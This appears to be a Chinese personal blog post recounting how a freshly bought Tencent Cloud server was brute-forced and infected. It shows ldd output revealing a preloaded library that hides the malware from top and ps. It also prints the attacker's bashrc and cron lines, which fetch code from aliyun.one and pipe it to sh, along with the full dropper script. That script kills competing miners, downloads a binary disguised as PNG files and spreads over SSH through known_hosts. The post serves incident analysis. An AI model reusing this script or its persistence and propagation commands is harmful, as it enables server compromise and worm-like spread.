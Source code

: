 腾讯云服务器被黑事件
====================

:Published: : 2020/01/07

.. meta::
    :description: 腾讯云服务器被爆破登录，执行恶意代码，导致 CPU 负载甚高。

刚买的腾讯云服务器，因为临时测试下性能，所以只是设置了一个简单的密码，结果分分钟就被爆破了。

登录上服务器，发现 CPU 负载很高，但用 top 命令却无法找到是哪个进程在占用 CPU。
参考了 `这篇文章 <https://mp.weixin.qq.com/s/1AF5cgo_hJ096LmX7ZHitA>`_ ，
使用 ldd 查看 top，ps 以及 vmstat 的动态链接库，发现均有同一个可疑的 ``/usr/local/lib/libevent_core-0.12.so`` : ::

    # ldd  `which top`
    linux-vdso.so.1 =>  (0x00007ffe21bc7000)
    /usr/local/lib/libevent_core-0.12.so (0x00007ff594420000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007ff5941f9000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007ff593fc8000)
    libncurses.so.5 => /lib64/libncurses.so.5 (0x00007ff593da1000)
    libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00007ff593b77000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007ff593973000)
    libc.so.6 => /lib64/libc.so.6 (0x00007ff5935a5000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007ff5933a0000)
    libm.so.6 => /lib64/libm.so.6 (0x00007ff59309e000)
    librt.so.1 => /lib64/librt.so.1 (0x00007ff592e96000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007ff592c6f000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007ff592a49000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007ff592834000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007ff5925b3000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007ff5923ae000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007ff592195000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007ff591f44000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007ff591d2e000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007ff591b12000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ff594626000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007ff59190d000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007ff5916ab000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007ff591493000)
    libz.so.1 => /lib64/libz.so.1 (0x00007ff59127d000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007ff59106d000)

    
    # ldd `which ps`
    linux-vdso.so.1 =>  (0x00007ffe8214a000)
    /usr/local/lib/libevent_core-0.12.so (0x00007f49ddc38000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007f49dda11000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007f49dd7e0000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007f49dd5dc000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f49dd20e000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007f49dd009000)
    libm.so.6 => /lib64/libm.so.6 (0x00007f49dcd07000)
    librt.so.1 => /lib64/librt.so.1 (0x00007f49dcaff000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007f49dc8d8000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007f49dc6b2000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007f49dc49d000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007f49dc21c000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007f49dc017000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007f49dbdfe000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007f49dbbad000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007f49db997000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007f49db77b000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f49dde3e000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007f49db576000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007f49db314000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007f49db0fc000)
    libz.so.1 => /lib64/libz.so.1 (0x00007f49daee6000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007f49dacd6000)


    # ldd `which vmstat`
    linux-vdso.so.1 =>  (0x00007ffd99ce3000)
    /usr/local/lib/libevent_core-0.12.so (0x00007fdf0f4cb000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007fdf0f2a4000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007fdf0f073000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007fdf0ee6f000)
    libc.so.6 => /lib64/libc.so.6 (0x00007fdf0eaa1000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007fdf0e89c000)
    libm.so.6 => /lib64/libm.so.6 (0x00007fdf0e59a000)
    librt.so.1 => /lib64/librt.so.1 (0x00007fdf0e392000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007fdf0e16b000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007fdf0df45000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007fdf0dd30000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007fdf0daaf000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007fdf0d8aa000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007fdf0d691000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007fdf0d440000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007fdf0d22a000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007fdf0d00e000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fdf0f6d1000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007fdf0ce09000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007fdf0cba7000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007fdf0c98f000)
    libz.so.1 => /lib64/libz.so.1 (0x00007fdf0c779000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007fdf0c569000)

之后又找到了 `另一篇文章 <https://www.anquanke.com/post/id/171523>`_ ，
发现它描述的入侵案例和我遇到的一模一样，相关文件如下:

在 /etc/bashrc 中: ::

    (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;exec(urllib.urlopen("http://aliyun.one/pygo").read())')|sh >/dev/null 2>&1 &

在 /var/spool/cron/root 中: ::

    */15 * * * * (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen("http://aliyun.one").read())')|sh 

上面两个文件都被攻击者插入了恶意代码，目的是获取如下脚本并经由 shell 执行: ::

    #<script>window.location.href="http://aliyun.com";</script><!--
    export PATH=$PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin
    mv /bin/wge /bin/wget
    mv /bin/cur /bin/curl
    mv /usr/bin/wge /usr/bin/wget
    mv /usr/bin/cur /usr/bin/curl
    mkdir -p /tmp
    chmod 1777 /tmp
    echo "*/10 * * * * (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh"|crontab -
    cat > /etc/crontab <<EOF
    SHELL=/bin/bash
    PATH=/sbin:/bin:/usr/sbin:/usr/bin

    */10 * * * * root (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen("http://aliyun.one").read())'||/usr/local/sbin/76572670a3)|sh
    EOF
    swapoff -a
    find /etc/cron*|xargs chattr -i
    find /var/spool/cron*|xargs chattr -i
    grep -RE "(wget|curl)" /etc/cron*|grep -v "aliyun.one"|cut -f 1 -d :|xargs rm -rf
    grep -RE "(wget|curl)" /var/spool/cron*|grep -v "aliyun.one"|cut -f 1 -d :|xargs rm -rf
    netstat -anp|grep :::6345|awk '{print $7}'|sed -e "s/\/.*//g"|xargs kill -9
    netstat -anp|grep 119.9.76.107:443|awk '{print $7}'|sed -e "s/\/.*//g"|xargs kill -9
    cd /tmp
    touch /usr/local/bin/writeablex && cd /usr/local/bin/
    touch /usr/libexec/writeablex && cd /usr/libexec/
    touch /usr/bin/writeablex && cd /usr/bin/
    rm -rf /usr/local/bin/writeablex /usr/libexec/writeablex /usr/bin/writeablex

    export PATH=$PATH:$(pwd)
    a64="img.sobot.com/chatres/89/msg/20191225/1/ec0991da601e45c4b0bb6178da5f0cc4.png"
    a32="img.sobot.com/chatres/89/msg/20191225/1/50659157a100466a88fed550423a38ee.png"
    b64="cdn.xiaoduoai.com/cvd/dist/fileUpload/1577269944760/2.637890910155951.png"
    b32="cdn.xiaoduoai.com/cvd/dist/fileUpload/1577269966297/8.872362655092918.png"
    c64="https://user-images.githubusercontent.com/56861392/71443284-08acf200-2745-11ea-8ef3-509d9072d970.png"
    c32="https://user-images.githubusercontent.com/56861392/71443285-08acf200-2745-11ea-96c3-0c2be9135085.png"
    if [ ! -f "76572670a3" ]; then
        ARCH=$(getconf LONG_BIT)
        if [ ${ARCH}x = "64x" ]; then
            (curl -fsSL -m180 $a64 -o 76572670a3||wget -T180 -q $a64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$a64'", "76572670a3")'||curl -fsSL -m180 $b64 -o 76572670a3||wget -T180 -q $b64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$b64'", "76572670a3")'||curl -fsSL -m180 $c64 -o 76572670a3||wget -T180 -q $c64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("'$c64'", "76572670a3")')
        else
            (curl -fsSL -m180 $a32 -o 76572670a3||wget -T180 -q $a32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$a32'", "76572670a3")'||curl -fsSL -m180 $b32 -o 76572670a3||wget -T180 -q $b32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$b32'", "76572670a3")'||curl -fsSL -m180 $c32 -o 76572670a3||wget -T180 -q $c32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("'$c32'", "76572670a3")')
        fi
    fi
    chmod +x 76572670a3
    $(pwd)/76572670a3 || ./76572670a3 || /usr/bin/76572670a3 || /usr/libexec/76572670a3 || /usr/local/bin/76572670a3 || 76572670a3 || /tmp/76572670a3 || /usr/local/sbin/76572670a3
    if [ -f /root/.ssh/known_hosts ]; then
      for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL aliyun.one||wget -q -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh >/dev/null 2>&1 &";done
    fi

    for file in /home/*
    do
        if test -d $file; then
            if [ -f $file/.ssh/known_hosts ]; then
                for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL aliyun.one||wget -q -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh >/dev/null 2>&1 &";done
            fi
        fi
    done
    #-->

更可恶的是，这个脚本会扫描本地 *.ssh/known_hosts* 文件，继续传播恶意代码！

Thanks for reading :)

References
----------

- https://www.anquanke.com/post/id/171523
- https://zhuanlan.zhihu.com/p/65609044
